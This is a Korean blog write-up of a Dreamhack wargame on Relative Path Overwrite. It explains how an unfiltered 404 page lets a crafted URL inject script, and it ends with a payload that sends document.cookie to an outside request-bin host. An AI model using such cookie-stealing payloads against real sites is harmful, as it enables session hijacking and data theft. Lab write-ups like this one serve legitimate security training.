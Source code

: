 ```yaml
---
title: "드림핵 lv.2 - Relative Path Overwrite Advanced"
date: 2025-03-26 00:10:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, rpo, relative path overwrite] 
description: 드림핵 Relative Path Overwrite Advanced 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/440](https://dreamhack.io/wargame/challenges/440)
# 문제 설명
Exercise: Relative Path Overwrite의 패치된 문제입니다.

---
# 문제 풀이
## 웹사이트 분석
웹사이트는 이 전에 풀이했던 [Relative Path Overwrite](https://hoonsooni.com/posts/dreamhack_relative_path_overwrite/)과 정확하게 일치하기 때문에 분석할 것이 없다.

유일하게 다른 차이점은 /?page=vuln에 접근했을 때 param 값에 상관없이 "nope !!"이 출력된다는 점인데, filter.js 파일이 제대로 읽혀지지 않기 때문이다.
## 코드 분석
### 000-default.conf
```
RewriteEngine on
RewriteRule ^/(.*)\.(js|css)$ /static/$1 [L]

ErrorDocument 404 /404.php
```
이번에 새로 추가된 설정 파일이다.<br />
이번 웹 서비스는 아파치 서버를 사용하는 모양인지 아파치의 RewriteEngine 모듈을 사용하는 모양이다.<br />
해당 모듈을 이용하여 일종의 redirection을 수행하고 있다. 예를 들어 sample.js를 요청할 때 "/static/sample.js"로 바꾸어 버린다는 것이다.<br />
### 404.php
```php
<?php 
    header("HTTP/1.1 200 OK");
    echo $_SERVER["REQUEST_URI"] . " not found.";
?>
```
이번에도 또 새로 생긴 404.php 파일이다.<br />
해당 서버에서 404 에러가 발생할 시에 해당 php 파일이 리턴된다. <br />
여기서 주목해야 할 점은 유저가 적은 URL 값을 그대로 출력한다는 점이다. 여기서 RPO 취약점이 발생한다.
## 최종 풀이
우리가 해야하는 것은 결국 이 전 문제와 동일하게 임의의 스크립트를 통해 플래그 값을 읽어오는 것이다.<br />
해당 문제는 RPO 취약점을 연습하는 문제이기 때문에 해당 방식의 풀이를 고민해 보아야한다.<br />
### /?page=vuln 페이지의 문제
이번 vuln 페이지에서는 전에도 이야기했듯이 filter.js가 올바르게 로드되지 못하고있다.<br />
어떠한 param 값을 전달해도 계속해서 "nope !!"만 출력할 뿐이고 콘솔에도 filter.js에서 문법 에러가 발생했다는 메세지도 볼 수 있다. 추가적으로 Network 탭에서 filter.js 요청의 응답을 보면 파일 안에 "/filter.js not found."라는 문자만 남아있을 뿐이다.<br />

원래 filter.js 내용이 담겨있지 않고 404.php의 내용이 담겨있다.<br />
#### 여기서 얻을 수 있는 힌트
여기서 우리는 filter.js가 올바르게 로딩되고 있지 않지만 "로딩" 자체는 되고있다는 정보를 얻을 수 있다.<br />
로딩 자체는 되지만 안에 내용물이 404에러로 인한 404.php 파일의 내용으로 변환되는 듯한 결과를 볼 수 있다.<br />

404.php의 내용은 유저가 입력한 URL 값을 출력한다.<br />
유저가 입력한 값을 아무런 필터도 거치지 않고 그대로 출력하기 때문에 취약점이 발생한다는 것을 알 수 있다.<br />
### 익스플로잇
vuln 페이지에 접속했을 때 filter.js 파일 안에는 "/filter.js not found."라는 메세지가 들어있었다.<br />
해당 메세지로 인해서 콘솔에서는 unclosed 정규식 표현으로 인식하여 에러 메세지를 출력하는 것이다.<br />

메세지의 "/filter.js" 부분은 vuln 페이지의 `<script src="/filter.js"></script>`로부터 출력되는 것이다. 즉, URL로 다른 값을 입력하면 filter.js 파일에는 해당 URL 값이 전달된다는 것을 의미한다.<br />

```
http://host3.dreamhack.games:10389/sample.js
```
이런식으로 "sample.js" 파일에 접근하면 404.php에 의해서 "sample.js not found."가 출력되는 것이다.<br />

```
http://host3.dreamhack.games:10389/index.php/;alert(1);//?page=vuln
```
만약 URL을 이렇게 입력한다면 filter.js 내부에는 `/index.php/;alert(1);//filter.js not found.`가 입력되는 셈이다. `;`은 자바스크립트에서 한 스크립트의 끝을 의미한다. 즉, "/index.php/;"처럼 작성하여 마치 한 스크립트를 끝내고자 하는 듯이 조작한 것이다.<br />

여기서 "/index.php/"는 올바른 스크립트 코드가 아니기 때문에 문법 에러가 발생하겠지만 자바스크립트 특성상 이 전의 스크립트에서 문제가 발생하여도 그 다음 스크립트는 그대로 실행하기 때문에 그 다음인 "alert(1);"를 수행하는 것이다.<br />

이때 `alert(1)`이라는 코드가 실행되면서 alert 창이 올바르게 뜨게되고 그 다음 "//"을 입력해주어 "filter.js not found." 부분을 주석 처리 해주는 방식인 것이다.

```
http://host3.dreamhack.games:24191/index.php/;location.href='https://mjusrvc.request.dreamhack.games/'+document.cookie;//?page=vuln
```
`alert(1)` 대신에 우리에게 필요한 코드를 작성하여 report 페이지로 URL을 보내주면 드림핵의 Request Bin에서 플래그를 읽어낼 수 있다.
# 배운 것
Relative Path Overwrite이 언제 발생하는지에 대해서 한층 더 깊은 이해를 도와주는 문제였다.<br />
그리고 RewriteEngine과 같은 모듈의 존재에 대해서 알게됐다.
